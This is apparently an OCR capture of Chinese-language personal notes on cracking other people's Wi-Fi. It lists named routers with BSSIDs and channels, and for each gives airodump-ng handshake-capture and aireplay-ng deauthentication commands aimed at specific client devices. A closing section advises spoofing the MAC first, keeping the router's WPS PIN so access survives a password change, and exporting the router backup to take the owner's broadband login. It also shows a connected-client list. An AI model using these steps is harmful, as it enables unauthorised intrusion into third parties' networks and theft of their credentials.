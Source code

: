     🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a E4:F3:F5:83:CF:00 -c A8:7C:01:77:77:27 wlan0mon


    🔵 Tenda_FDE198 C8:3A:35:FD:E1:98    11    👹 无握手包.....

      airodump-ng -c 11 --bssid C8:3A:35:FD:E1:98 -w ~/ wlan0mon

      aireplay-ng -0 20 -a C8:3A:35:FD:E1:98 -c FC:E9:98:1F:B2:F1 wlan0mon


    🔵 TP-LINK_CF9B   B8:F8:83:ED:CF:9B  11     👹 无握手包..
      airodump-ng -c 11 --bssid B8:F8:83:ED:CF:9B -w ~/ wlan0mon

    aireplay-ng -0 20 -a B8:F8:83:ED:CF:9B -c B0:89:00:A3:CA:27 wlan0mon



    🔵 TP-LINK_5E0C  ❌        8C:A6:DF:DE:5E:0C  CH 6

      🔸 抓包并查看连接设备:
      airodump-ng -c 6 --bssid 8C:A6:DF:DE:5E:0C -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a 8C:A6:DF:DE:5E:0C -c 1C:77:F6:65:35:0C wlan0mon




    🔵 MERCURY_F668 ❌     BC:5F:F6:0A:F6:68  CH 6

      🔸 抓包并查看连接设备:
      airodump-ng -c 6 --bssid BC:5F:F6:0A:F6:68 -w ~/ wlan0mon

      🔸 新开终端: 重启对方设备..
      aireplay-ng -0 2 -a BC:5F:F6:0A:F6:68 -c 78:02:F8:AE:07:4B wlan0mon

      也没有抓到握手包...


    🔵 MERCURY_DBBE302 ❌   1C:60:DE:AE:DB:BE  CH6

      🔸 抓包并查看连接设备:
      airodump-ng -c 6 --bssid 1C:60:DE:AE:DB:BE -w ~/ wlan0mon
      .... 没设备连接...














⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

干坏或者不坏的事情前先修改MAC...

wifi 和 路由器密码都有了. 然后我们可以....

一记录下pin码，31070003 保证即使主人再改密码也不用再次破解。
二导出路由备份文件，可以查看宽带账户密码，记录下来有很多用处。


路由器 ➜ dhcp服务器 ➜ 客户端列表 ➜ 
1	android-3dce3ed3285596ab	1C-7B-23-13-73-DC	192.168.11.101	01:37:57
2	YH-20160915GEDS	74-E5-43-06-24-D2	192.168.11.102	01:34:53
